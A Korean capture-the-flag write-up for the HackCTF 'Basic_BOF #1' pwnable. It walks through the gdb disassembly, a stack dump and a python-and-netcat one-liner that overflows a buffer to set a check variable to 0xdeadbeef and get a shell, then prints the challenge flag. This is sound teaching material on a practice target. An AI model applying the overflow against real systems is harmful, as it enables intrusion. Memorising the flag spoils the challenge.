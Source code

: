 # Basic_BOF \#1

---

전체 code는 다음과 같다.

```assembly
gdb-peda$ pd main
Dump of assembler code for function main:
   0x080484cb <+0>:	lea    ecx,[esp+0x4]
   0x080484cf <+4>:	and    esp,0xfffffff0
   0x080484d2 <+7>:	push   DWORD PTR [ecx-0x4]
   0x080484d5 <+10>:	push   ebp
   0x080484d6 <+11>:	mov    ebp,esp
   0x080484d8 <+13>:	push   ecx
   0x080484d9 <+14>:	sub    esp,0x34
   0x080484dc <+17>:	mov    DWORD PTR [ebp-0xc],0x4030201
   0x080484e3 <+24>:	mov    eax,ds:0x804a040
   0x080484e8 <+29>:	sub    esp,0x4
   0x080484eb <+32>:	push   eax
   0x080484ec <+33>:	push   0x2d
   0x080484ee <+35>:	lea    eax,[ebp-0x34]
   0x080484f1 <+38>:	push   eax
   0x080484f2 <+39>:	call   0x8048380 <fgets@plt>
   0x080484f7 <+44>:	add    esp,0x10
   0x080484fa <+47>:	sub    esp,0x8
   0x080484fd <+50>:	lea    eax,[ebp-0x34]
   0x08048500 <+53>:	push   eax
   0x08048501 <+54>:	push   0x8048610
   0x08048506 <+59>:	call   0x8048370 <printf@plt>
   0x0804850b <+64>:	add    esp,0x10
   0x0804850e <+67>:	sub    esp,0x8
   0x08048511 <+70>:	push   DWORD PTR [ebp-0xc]
   0x08048514 <+73>:	push   0x804861c
   0x08048519 <+78>:	call   0x8048370 <printf@plt>
   0x0804851e <+83>:	add    esp,0x10
   0x08048521 <+86>:	cmp    DWORD PTR [ebp-0xc],0x4030201
   0x08048528 <+93>:	je     0x8048543 <main+120>
   0x0804852a <+95>:	cmp    DWORD PTR [ebp-0xc],0xdeadbeef
   0x08048531 <+102>:	je     0x8048543 <main+120>
   0x08048533 <+104>:	sub    esp,0xc
   0x08048536 <+107>:	push   0x8048628
   0x0804853b <+112>:	call   0x8048390 <puts@plt>
   0x08048540 <+117>:	add    esp,0x10
   0x08048543 <+120>:	cmp    DWORD PTR [ebp-0xc],0xdeadbeef
   0x0804854a <+127>:	jne    0x804857c <main+177>
   0x0804854c <+129>:	sub    esp,0xc
   0x0804854f <+132>:	push   0x8048644
   0x08048554 <+137>:	call   0x8048390 <puts@plt>
   0x08048559 <+142>:	add    esp,0x10
   0x0804855c <+145>:	sub    esp,0xc
   0x0804855f <+148>:	push   0x804866e
   0x08048564 <+153>:	call   0x80483a0 <system@plt>
   0x08048569 <+158>:	add    esp,0x10
   0x0804856c <+161>:	sub    esp,0xc
   0x0804856f <+164>:	push   0x8048678
   0x08048574 <+169>:	call   0x8048390 <puts@plt>
   0x08048579 <+174>:	add    esp,0x10
   0x0804857c <+177>:	mov    eax,0x0
   0x08048581 <+182>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048584 <+185>:	leave  
   0x08048585 <+186>:	lea    esp,[ecx-0x4]
   0x08048588 <+189>:	ret    
End of assembler dump.
```

이 코드의 내용은 buf에 45bytes만큼 입력을 받아서 bufferoverflow를 통해서 check라는 변수를 0xdeadbeef로 바꾸면 shell을 열어주는 코드이다. 이를 위해서 A*32를 입력한다음 stack을 보았다.

    gdb-peda$ x/20wx $ebp-0x40
    0xffffce48:	0xf7fb65a0	0xf7fd31b0	0x00008000	0x41414141
    0xffffce58:	0x41414141	0x41414141	0x41414141	0x41414141
    0xffffce68:	0x41414141	0x41414141	0x41414141	0xffff000a
    0xffffce78:	0xffffcf3c	0x04030201	0xf7fb63dc	0xffffcea0
    0xffffce88:	0x00000000	0xf7e1c637	0xf7fb6000	0xf7fb6000

보면 buf의 시작주소는 0xffffce54이고, check의 주소는 0xffffce7c이다. 때문에 dummy를 40bytes를 채우고, 0xdeadbeef를 입력하면 shell을 따낼 수 있다.


    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/1.Basic_Bof#1$ (python -c "print 'A'*40+'\xef\xbe\xad\xde'";cat) | nc ctf.j0n9hyun.xyz 3000
    ls
    flag
    main
    cat flag
    HackCTF{f1r57_574ck_buff3r_0v3rfl0w_5ucc355}

**flag: HackCTF{f1r57_574ck_buff3r_0v3rfl0w_5ucc355}**
